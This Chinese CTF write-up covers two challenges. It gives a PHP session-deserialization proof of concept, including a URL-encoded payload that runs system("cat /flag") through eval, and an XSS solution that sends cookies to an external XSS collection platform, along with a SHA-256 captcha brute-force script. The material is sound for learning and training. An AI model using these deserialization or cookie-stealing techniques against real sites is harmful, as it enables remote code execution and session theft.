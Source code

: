 步骤如下：

poc:

```php
<?php

class CNSS{
    private $username = 'admin';
    private $code = 'system("cat /flag");';
}


$a = new CNSS();
echo urlencode('|'.serialize($a));
```

1. 生成payload，记得改属性数目来绕过__wakeup
2. 访问save.php借助cnss传payload，让网页获得seesion数据
3. 再从save.php跳转至index.php，确保session不变，由于引擎不同就会触发反序列化，然后再触发`__destruct()`方法执行`eval()`

![](https://i.loli.net/2021/10/08/w2oi6UJxeHELBjs.png)

payload:

```
http://121.41.7.149:65004/save.php?cnss=%7CO%3A4%3A%22CNSS%22%3A3%3A%7Bs%3A14%3A%22%00CNSS%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A10%3A%22%00CNSS%00code%22%3Bs%3A20%3A%22system%28%22cat+%2Fflag%22%29%3B%22%3B%7D
```

然后再访问：即可触发

```
http://121.41.7.149:65004/
```





## [😮Mid]To_be_Admin_Again_and_Again

明显的xss

xss平台弹cookie过来就可以

https://xss.pt/xss.php

![](https://i.loli.net/2021/10/08/r8dRa4JjG2teOIn.png)

验证码用脚本跑：

```python
import hashlib
l = 'qwertyuiopasdfghjklzxcvbnm1234567890'
for i in l:
    for j in l:
        for k in l:
            for m in l:
                for n in l:
                    for o in l:
                        for p in l:
                            for q in l:
                                f = i + j + k + m + n + o + p + q
                                sha = hashlib.sha256(f.encode(encoding='UTF-8')).hexdigest()
                                if sha[:6] == 'bacbd7':
                                    print(f)
                                    print(sha)
                                    exit(0)
```
